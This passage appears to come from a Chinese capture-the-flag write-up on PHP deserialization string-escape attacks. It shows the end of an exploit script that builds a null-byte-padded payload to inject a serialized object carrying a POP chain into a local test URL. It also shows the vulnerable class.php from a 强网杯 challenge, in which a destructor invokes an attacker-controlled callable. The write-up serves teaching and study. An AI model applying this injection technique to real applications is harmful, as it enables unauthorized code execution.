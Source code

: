 ```php
    curl_close($ch);
    return $output;
}

function padding($poc){
    $target = '";s:8:"password";s:72:"1';
    $username = "drom".str_repeat('\0\0\0',strlen($target)/3);
    $password = '1'.'";s:4:"drom";'.$poc.'}';  //注入一个名称为drom对象，内容为pop链
//    echo $username,"\n";
//    echo $password,"\n";
    $args = '?a='.urlencode($username).'&b='.urlencode($password);
    return $args;
}
$b = new B();
$b->b = new C();

echo CURL('http://127.0.0.1/ax/index.php'.padding(serialize($b)));



```



### 加了绕过：强网杯web辅助

**class.php**

```php
<?php
class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct($user, $pass, $admin = 0){
        $this->user = $user;
        $this->pass = $pass;
        $this->admin = $admin;
    }

    public function get_admin(){
        return $this->admin;
    }
}

class topsolo{
    protected $name;

    public function __construct($name = 'Riven'){
        $this->name = $name;
    }

    public function TP(){
        if (gettype($this->name) === "function" or gettype($this->name) === "object"){
            $name = $this->name;
            $name();
        }
    }

    public function __destruct(){
        $this->TP();
    }

}
```